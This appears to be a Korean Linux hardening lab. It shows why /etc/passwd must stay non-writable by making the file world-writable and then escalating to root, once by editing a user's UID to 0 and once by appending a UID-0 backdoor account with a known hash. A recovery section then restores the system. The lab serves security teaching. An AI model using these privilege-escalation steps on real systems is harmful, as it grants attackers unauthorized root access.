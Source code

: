 ## /etc/passwd 파일 소유자 및 권한 설정

왜 `root` 외의 일반 사용자가 `/etc/passwd` 파일을 수정할 수 없도록 설정(접근 권한이 `644` 이하)해야 하는지 알아봅시다.

### 실습 1 : UID 변경으로 루트 되기

먼저 시스템을 취약하게 만듭니다.

1. 누구나 `/etc/passwd` 파일을 수정할 수 있도록 변경
```
cju@wooam:~$ sudo chmod o+w /etc/passwd
```

그리고 공격자가 사용할 계정을 추가합니다.

2. `sudo` 명령을 사용할 수 없는 일반 사용자 `aaa` 생성
```
cju@wooam:~$ sudo adduser aaa
```




3. 사용자 `aaa`로 전환
```
cju@wooam:~$ su aaa
```

4. `vi` (또는 `nano`) 편집기로 `/etc/passwd` 파일 열기
```
aaa@wooam:/home/cju$ vi /etc/passwd
```

5. `/etc/passwd`에서 `wooam`의 UID와 GID를 0으로 변경
```
aaa:0:0:,,,:/home/aaa:/bin/bash
```

6. 수정된 내용 저장 및 `vi` 나가기
> 참고 : `:wq!`

7. 다시 사용자 `aaa`로 전환
```
aaa@wooam:/home/cju$ su aaa
```

8. `id` 명령으로 UID 및 GID 확인
```
root@wooam:/home/cju# id
```

### 실습 2 : 패스워드가 없으면서 UID가 0인 사용자 만들기
1. `sudo` 명령을 사용할 수 없는 일반 사용자 `bbb` 생성
```
cju@wooam:~$ sudo adduser bbb
```

2. 누구나 `/etc/passwd` 파일을 수정할 수 있도록 권한 변경
```
cju@wooam:~$ sudo chmod o+w /etc/passwd
```

3. 사용자 `bbb`로 전환
```
cju@wooam:~$ su bbb
```

4. 패스워드가 없고 UID가 0인 사용자 `ccc` 추가
```
bbb@wooam:/home/cju$ echo "ccc:U6aMy0wojraho:0:0::/root:/bin/bash" >> /etc/passwd
```

5. 사용자 `ccc`로 전환
```
bbb@wooam:/home/cju$ su ccc
```

6. `id` 명령으로 UID 및 GID 확인
```
root@wooam:/home/cju# id
```

### 복구
1. 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa bbb ccc
```

2. 다른 사용자가 `/etc/passwd` 파일을 수정할 수 없도록 권한 변경
```
cju@wooam:~$ sudo chmod o-w /etc/passwd
```
